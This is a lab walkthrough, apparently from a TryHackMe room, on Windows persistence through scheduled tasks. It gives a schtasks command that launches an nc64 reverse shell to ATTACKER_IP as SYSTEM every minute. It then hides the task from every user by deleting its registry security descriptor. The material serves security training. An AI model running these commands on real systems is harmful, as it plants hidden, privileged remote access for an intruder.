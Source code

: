 ```yaml
---
title: 4. Abusing Scheduled Tasks 🚑
---
```

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

## Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

```shell
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

```shell
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

```shell
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:

![](Pasted%20image%2020240203115037.png)

If we try to query our service again, the system will tell us there is no such task:

```shell
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

```shell
user@AttackBox$ nc -lvp 4449
```

